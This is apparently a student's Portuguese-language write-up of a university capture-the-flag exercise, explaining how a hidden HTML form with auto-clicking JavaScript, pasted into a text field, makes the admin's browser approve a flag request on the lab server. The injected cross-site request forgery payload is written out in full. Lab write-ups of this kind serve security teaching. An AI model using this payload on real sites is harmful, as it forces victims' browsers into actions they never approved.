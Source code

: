 # CTF6

Ao entrar no site e colocando algo no campo de texto com a justificação para obter a flag, conseguimos a seguir chegar à página do admin, ao carregar em "page". 

![ctf6imagem1](images/ctf6imagem1.png)

 
Onde é possível ver que a página do admin muda para a porta 5005 em vez da 5004 e, inspecionando a página, verificamos que o form do request tem a seguinte estrutura:

![ctf6imagem2](images/ctf6imagem2.png)

```html
 <form method="POST" action="/request/877361c8b921df188014a0e8790347ffe5cbeb78/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form> 
```


Onde "877361c8b921df188014a0e8790347ffe5cbeb78" é o request id que nos é dado na página inicial. Logo, podemos adaptar um novo form com o objetivo de aceitar o pedido. 

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Portanto, voltando à página inicial e colocando este novo form na 'justificação', mas com o request id que nos é dado nessa página, temos algo deste género:

![ctf6imagem3](images/ctf6imagem3.png)

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d017767734bfe2c6e391e8d5606caecafebd4c85/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```
e com isso damos o 'Submit'.

(Depois dei reload outra vez e o id para buscar a flag atualizou para d017767734bfe2c6e391e8d5606caecafebd4c85 mas os prints foram tirados com o anterior)

Somos passados para o url da ação do form, no entanto vai nos ser avisado que não temos permissões para tal.

![ctf6imagem4](images/ctf6imagem4.png)

Para combater isso, vamos impedir o redirecionamento do nosso lado, mas vamos manter o redirecionamento do lado do admin. (desativando o JavaScript do nosso lado)
Google Chrome -> Definições -> Privacidade e Segurança -> Definições de Sites -> JavaScript -> (Sem autorização para usar JavaScript) Adicionar ->

![ctf6imagem5](images/ctf6imagem5.png)

Vamos então fazer isto de novo, agora sem o redirecionamento da nossa parte.
 
Aqui já verificamos que o redirecionamento já não foi realizado para a página do admin, mas sim para a certa. Contudo o request não foi validado.

![ctf6imagem6](images/ctf6imagem6.png)

Como desativamos o JavaScript, a página já não dá os constantes reloads que estava a dar, logo faremos isso manualmente:

![ctf6imagem7](images/ctf6imagem7.png)

E dessa forma conseguimos a Flag!



